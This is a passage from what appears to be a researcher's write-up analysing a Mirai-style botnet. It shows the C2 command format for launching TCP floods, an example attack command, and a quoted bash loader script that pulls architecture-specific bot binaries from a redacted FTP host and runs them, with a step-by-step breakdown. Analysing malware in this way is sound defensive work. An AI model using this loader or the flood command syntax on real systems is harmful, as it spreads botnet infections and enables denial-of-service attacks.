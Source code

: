 This was a command sent to all bots, instructing them to launch an attack on an IP.

The command is parsed as follows:

```
! {Type of attack} {IP to attack} {Port to attack} {Time to attack for} {Netmask for spoofed IP} {Packet size} {Send interval}
```

The IP resolves to a server in Vietnam with port 22 open.

Soon after, I received the following message:

```
! STOP
```

And then:

```
! TCP {REDACTED} 22 30 32 9999 10
```

### **Mirai Detection and Analysis**

Around 3 hours later, I attempted to find the port for the C2 control panel and enumerate other hosted binaries. However, port 12345 was closed, and the web server was no longer active. After a quick port scan, I noticed that port 21 (FTP) had been opened.

When I connected using the anonymous FTP account, I found multiple files named `k03ldc` with each file corresponding to a different CPU architecture as the file extension. There was also a file called `ohshit1.sh`, the file contained a loader script for binaries that weren't present on the FTP server or the web server. My guess is that this person is inexperienced and trying out different botnet sources (and being rather messy while doing so).

The loader script looks as follows:

```bash
ulimit -n 1024
cp /bin/busybox /tmp/
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; ftpget -v -u anonymous -p anonymous -P 21 {REDACTED} boatnet.x86 boatnet.x86; cat boatnet.x86 >WTF; chmod +x *; ./WTF
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; ftpget -v -u anonymous -p anonymous -P 21 {REDACTED} boatnet.mips boatnet.mips; cat boatnet.mips >WTF; chmod +x *; ./WTF
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; ftpget -v -u anonymous -p anonymous -P 21 {REDACTED} boatnet.arc boatnet.arc; cat boatnet.arc >WTF; chmod +x *; ./WTF
```

Here's a breakdown of how this payload works:

1. First it raises the limit of open file descriptors (in order to allow the bot to make more connections / requests)

2. It then copies busybox from /bin into /tmp

3. Then it uses the `ftpget` command to try and retrive `boatnet.{architecture}` from the server using the anonymous login

4. It then copies the contents of the retrieved binary into a new binary called `WTF`
